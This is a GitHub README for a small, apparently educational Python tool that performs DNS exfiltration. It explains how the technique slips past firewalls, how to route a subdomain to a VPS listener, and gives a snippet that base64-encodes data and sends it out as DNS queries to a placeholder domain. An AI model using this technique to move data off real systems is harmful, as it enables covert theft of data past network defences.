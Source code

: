 # DNS Exfiltration
Some code to send and receive DNS requests in Python. 

### Why?
Mainly for education, to learn about DNS and specifically DNS exfiltration. For this use case, I was unsatisfied with existing tools such as nslookup because they will send multiple requests if no response is received, which is not ideal as we simply want to send a request without receiving anything back. This is designed to be simple—send just one request and don't worry about what happens after. 

### What?
DNS exfiltration is a method of getting data out from one system to another, usually from a compromised system to an attacker's system. DNS requests and responses are usually allowed through firewalls as it's pretty important if you want to use the internet. As a result, it is more likely to succeed without tripping any security systems compared to something else like FTP, which is probably blocked. 

## Legal Disclaimer 
This repository is for educational purposes only. Only send data from devices that you own or have explicit permission to send data from. It is the end user's responsibility to obey all applicable local, state and federal laws. The developers behind this project assume no liability and are not responsible for any misuse or damage caused by this program.
## Dependencies
- Python3
- [dnslib](https://pypi.org/project/dnslib/)
- A domain, e.g. from Cloudflare
- A virtual private server (VPS) to receive DNS requests

## Usage
1. In the settings of whichever website you bought your domain from, add a type A record to link a 'nameserver' to your VPS's IP, and a NS record to link a subdomain (any name will do) to the nameserver specified in the type A record:
![alt text](images/dns_setup.png)
In the example above, DNS requests to resolve `qqq.wergm.uk` and any subdomains will be sent to the IP of your VPS. 
2. Copy `recvdns.py` to your VPS and replace the regex with the subdomain url that was setup in step 2.
3. Start a listener on your VPS with `python3 recvdns.py`
4. On the device you want to send data from, base64 encode the content you wish to send.
5. Choose a DNS server. Any is fine as long as it doesn't use case randomization, which most don't. 
6. On the device you wish to send data from, copy senddns.py to it. In another Python file, replace `xxx.xxx.xxx` with the subdomain you set up in step 1, and use:
```python
import base64
import senddns
# ... 
content = 'stuff you want to send'
b64_content = base64.b64encode(content.encode('ascii')).decode('ascii')

senddns.sendQuery(f'{b64_content}.xxx.xxx.xxx', senddns.TYPE_A, 'DNS SERVER ADDR')
```
7. The decoded content should be printed to stdout by your VPS listener.